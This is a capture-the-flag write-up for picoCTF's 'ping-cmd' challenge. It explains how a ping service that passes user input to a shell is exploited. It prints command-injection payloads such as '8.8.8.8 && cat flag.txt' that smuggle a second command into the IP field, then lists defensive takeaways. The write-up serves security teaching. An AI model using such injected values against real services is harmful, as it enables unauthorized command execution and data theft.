

# ping-cmd

**Category:** General Skills
**Difficulty:** Easy
**Author:** Yahaya Meddy

---

## Challenge Description

The challenge provides a remote service that asks for an IP address to ping.

The description says:

```text
Can you make the server reveal its secrets?
It seems to be able to ping Google DNS, but what happens if you get a little creative with your input?
```

The hints are:

```text
1. The program uses a shell command behind the scenes.
2. Sometimes, you can run more than one command at a time.
```

These hints suggest a command injection vulnerability.

---

## Connecting to the Service

I connected to the remote service using netcat:

```bash
nc mysterious-sea.picoctf.net 65180
```

The program asked for an IP address:

```text
Enter an IP address to ping! (We have tight security because we only allow '8.8.8.8'):
```

At first, I tested the allowed input:

```text
8.8.8.8
```

The server executed a normal ping command against Google DNS:

```text
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
```

This confirmed that the service was passing the input to a shell command.

---

## Testing for Command Injection

Since the hint mentioned that multiple commands can be run at once, I tried using the shell operator `&&`.

The payload was:

```text
8.8.8.8 && ls
```

This means:

```text
First run the ping command successfully, then run ls.
```

The server executed the ping command, then displayed the files in the current directory:

```text
flag.txt
script.sh
```

This confirmed that the input was vulnerable to command injection.

---

## Reading the Flag

After discovering `flag.txt`, I injected another command to read it:

```text
8.8.8.8 && cat flag.txt
```

The server first executed the ping command, then executed:

```bash
cat flag.txt
```

This printed the flag.



---

## Why the Injection Works

The server likely builds a shell command using the user input, similar to:

```bash
ping -c 2 <user_input>
```

If the input is only:

```text
8.8.8.8
```

then the command is safe.

But if the input is:

```text
8.8.8.8 && cat flag.txt
```

the shell interprets `&&` as a command separator.

So the shell runs:

```bash
ping -c 2 8.8.8.8
cat flag.txt
```

Because the ping succeeds, the second command runs and reveals the flag.

---

## Full Command Sequence

```bash
nc mysterious-sea.picoctf.net 65180
```

First test:

```text
8.8.8.8
```

List files through command injection:

```text
8.8.8.8 && ls
```

Read the flag:

```text
8.8.8.8 && cat flag.txt
```

---

## Investigation Summary

```text
1. Connected to the remote service with netcat.
2. Tested the allowed IP address 8.8.8.8.
3. Observed that the server executed a ping command.
4. Used the shell operator && to run a second command.
5. Injected `8.8.8.8 && ls` to list files.
6. Found flag.txt and script.sh.
7. Injected `8.8.8.8 && cat flag.txt`.
8. Recovered the flag.
```

---

## Tools Used

```text
nc
ls
cat
```

---

## Key Takeaways

* User input should never be passed directly into shell commands.
* Shell operators such as `&&`, `;`, and `|` can be abused for command injection.
* Even if input validation appears restrictive, appending shell syntax can sometimes bypass the intended behavior.
* `&&` runs the second command only if the first command succeeds.
* Command injection can allow attackers to list files and read sensitive data.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
